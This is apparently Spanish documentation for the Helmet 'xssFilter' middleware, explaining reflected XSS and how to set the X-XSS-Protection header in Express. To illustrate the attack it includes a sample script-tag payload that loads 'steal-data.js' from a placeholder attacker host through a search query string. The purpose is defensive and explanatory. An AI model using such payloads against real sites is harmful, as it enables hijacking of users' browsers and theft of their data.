


Brevemente: la función middleware `xssFilter` setea la cabecera `X-XSS-Protection` para prevenir los ataques XSS reflejados.

El ataque
----------

Los ataques de scripting de sitio-cruzado, abreviado "XSS" como un acrónimo en inglés, es una manera en la que los atacantes pueden hacerse con una página web. El objetivo de un ataque XSS es ganar control sobre la ejecución del Javascript en el navegador de la víctima. Una vez que un hacker ha logrado eso, hay un montón de cosas sucias que puede llevar a cabo: registrar todas las acciones de un usuario, impostar identidades, robar las *cookies* de autenticación, y mucho más.

El Xss es una bestia multifacética y el aprendizaje exhaustivo acerca del mismo es algo que excede ésta sección. Lo que sí podemos garantizar es lo siguiente: si alguien logra correr Javascript en tu sitio, entonces también pueden atacar a tus usuarios y llevar a cabo montones de acciones maliciosas. ¡Debemos prevenirlo!

Una de las variedades de ataques XSS es llamado "XSS Reflejado". Típicamente funciona seteando una *query string* que es puesta directamente dentro del código HTML. De ésta manera, el atacante podría inyectar por medio de aquella *query string* y así lograr ejecutar código en el navegador de los usuarios que estén utilizando dicho HTML.

Por ejemplo, supongamos que provees un servicio de motor de búsqueda llamado *Goober*. Cada vez que alguien hace una búsqueda éste muestra la búsqueda justo encima de los resultados. por ejemplo, digamos que hemos buscado *javascript jokes*.

Cuando realizamos esa búsqueda, los términos de la misma también apareceran en la *query string*. La URL podría verse algo así:

```
https://goober.example.com/search?query=javascript+jokes
```

Los resultados de la búsqueda podrían verse similares a la captura de pantalla de aquí abajo. Nota como el texto aparece en la página.



¿Qué pasaria si alguien buscara algo como `<script src="http://evil.example.com/steal-data.js"></script>`? Eso nos generaría una URL que se vería algo como:

```
https://goober.example.com/search?query=<script%20src="http://evil.example.com/steal-data.js"></script>
```

Y aquí puedes ver también cómo se vería en tu página:



¡Derepente, un archivo malicioso de Javascript ha sido ejecutado símplemente porque hemos visitado aquella URL! Eso sí que no es bueno.

Leer más:

- [Guide to understanding XSS](http://www.securesolutions.no/xss-explained/)
- [Cross-site Scripting (XSS)](https://www.owasp.org/index.php/XSS)
- [What is Reflected XSS?](http://security.stackexchange.com/q/65142)
- [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)

La cabecera
----------

Para ser muy claro: *ésta cabecera no te proteje demasiado contra los ataques XSS*. Sólo te proteje contra un tipo muy particular de ataques XSS, y sería muy recomendable incluir otras medidas de prevención. Ésta cabecera provee simplemente una protección básica y de ninguna manera ofrece una protección completa contra ataques XSS.

La detección de ataues simples de XSS Reflejado es algo relativamente sencillo para los navegadores actuales. En el ejemplo anterior, éstos podrían elegir no ejecutar ningún codigo de Javascript dentro de una *tag* `<script>` tag que pudiera encontrarse dentro de una *query string. Algunos navegadores hacen ésta detección por defecto, pero otros no. Sin embargo, para lograr protección contra éste caso específico puedes setear la cabecera `X-XSS-Protection` en `1; mode=block`.

Esto informa a los navegadores que deben detectar y bloquear los ataques XSS Reflejados.

Paradójicamente, ésta cabecera causa **incluso peores** problemas de seguridad en versiones antiguas de Internet Explorer, por lo que es bueno deshabilitarla en aquellos casos.

- ["Controlling the XSS Filter" on MSDN](http://blogs.msdn.com/b/ieinternals/archive/2011/01/31/controlling-the-internet-explorer-xss-filter-with-the-x-xss-protection-http-header.aspx)
- ["IE's XSS Filter Creates XSS Vulnerabilities"](http://hackademix.net/2009/11/21/ies-xss-filter-creates-xss-vulnerabilities/)
- ["XSS Filter Script Handling Vulnerability - CVE-2009-4074"](https://technet.microsoft.com/library/security/ms10-002#XSS%20Filter%20Script%20Handling%20Vulnerability%20-%20CVE-2009-4074)

El código
--------
El filtro `xssFilter` de Helmet es una función middleware relativamente sencilla que setea la cabecera `X-XSS-Protection`. En la mayoría de los navegadores le asignará el valor `1; mode=block`. Sin embargo, en las versiones antiguas e Internet Explorer le asignará `0` para inhabilitarla.

Puedes usar éste módulo como parte de Helmet:

```javascript
// Aseúrate de haber ejecutado "npm install helmet" para obtener el paquete de Helmet.
const helmet = require('helmet')

// Setea "X-XSS-Protection: 1; mode=block".
app.use(helmet.xssFilter())
```

También puedes usar el módulo en solitario:

```javascript
// Asegúrate de haber ejecutado "npm install x-xss-protection" para obtener éste paquete.
const xssFilter = require('x-xss-protection')

// Setea "X-XSS-Protection: 1; mode=block".
app.use(xssFilter())
```

Para forzar el valor `1; mode=block` en ésta cabecera en todas las versiones de Internet Explorer, puedes añadir la siguiente opción:

```javascript
app.use(xssFilter({ setOnOldIE: true }))
// Esto puede traerte problemas de seguridad en versiones antiguas de Internet explorer!!
```

You can also optionally configure a report URI, though the flag is [specific to Chrome-based browsers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection). This option will report the violation to the specified URI:

```javascript
app.use(xssFilter({ reportUri: '/report-xss-violation' }))
```

Para quitar `mode=block` de la cabecera, lo cual no es recomendado, setea la opción `mode` a `null`:

```javascript
app.use(xssFilter({ mode: null }))
```

Ésta cabecera está incluida por defecto en el paquete de Helmet.